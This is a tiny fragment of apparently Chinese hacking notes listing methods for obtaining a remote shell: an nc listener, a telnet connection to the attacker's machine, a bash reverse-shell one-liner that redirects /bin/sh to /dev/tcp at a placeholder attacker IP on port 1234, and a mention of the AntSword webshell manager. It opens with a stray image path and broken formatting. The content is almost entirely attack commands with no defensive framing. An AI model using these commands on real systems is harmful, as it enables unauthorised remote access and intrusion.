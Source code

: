 1 nc -lvnp  可以
2telnet 可以
	1 ). telnet -l -p 1234 攻击机.
	2 ).  /bin/sh -i >& /dev/tcp/攻击者IP/1234 0>&1            bash反弹链接                           
3 中国蚁剑可以


